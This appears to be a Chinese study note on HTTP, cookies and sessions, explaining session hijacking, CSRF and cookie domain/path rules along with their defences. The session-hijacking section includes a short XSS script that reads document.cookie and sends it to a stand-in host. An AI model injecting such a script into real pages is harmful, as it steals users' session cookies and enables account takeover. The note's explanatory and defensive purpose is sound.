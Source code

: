 - HTTP 协议和其他应用层协议一样，本质上是一种通信格式。回到文章开头我问你的问题，其实答案很简单：HTTP 是通信的方式，HTML 才是通信的目的，就好比 HTTP 是信封，信封里面的信（HTML）才是内容；但是没有信封，信也没办法寄出去。HTTP 协议就是浏览器与服务器之间的沟通语言，具体交互过程是请求、处理和响应。

- 由于 HTTP 是无状态的协议，为了识别请求是哪个用户发过来的，出现了 Cookie 和 Session 技术。Cookie 本质上就是一份存储在用户本地的文件，里面包含了每次请求中都需要传递的信息；Session 可以理解为服务器端开辟的存储空间，里面保存的信息用于保持状态。作为 Web 容器，Tomcat 负责创建和管理 Session，并提供了多种持久化方案来存储 Session。

connect timeout和read timeout，前者可能是网络问题，或者服务端连接池不够用了。后者是连接已经建立了，但是服务端太忙了，不能及时处理完你的请求～

### 问题

#### session 劫持

session劫持攻击通过窃取或预测有效的Session令牌(SessionID)来获得未经授权Web服务器访问权限。

**XSS漏洞**

```
// 用户在评论或者留言板的功能中输入以下js脚本，跨域发送cookie中的sessionID给攻击者
var c=document.cookie;
var script =document.createElement('script');
script.src='http://test.com/index.php?c='+c;
document.body.appendChild(script);
```

解决：

- 防止XSS漏洞

  1. 过滤用户输入

  2. 设置sessionId的cookie为HttpOnly，使客户端无法获取

- 使用https协议，加密传输数据

#### csrf攻击

1. 登录受信任网站A，并在本地生成Cookie。

2. 在不登出A的情况下，访问危险网站B

   危险网站B 请求网站A 会带上Cookie，冒充用户在网站A的正常操作

   解决：

- **加token验证**
  - 在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 
    token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。
  - token需要足够随机
  - 敏感的操作应该使用POST，而不是GET，以form表单的形式提交，可以避免token泄露

#### 跨域

cookie有两个重要属性：
domain字段 ：表示浏览器访问这个域名时才带上这个cookie
path字段：表示访问的URL是这个path或者子路径时才带上这个cookie

跨域说的是，我们访问两个不同的域名或路径时，希望带上同一个cookie  

#### 盗链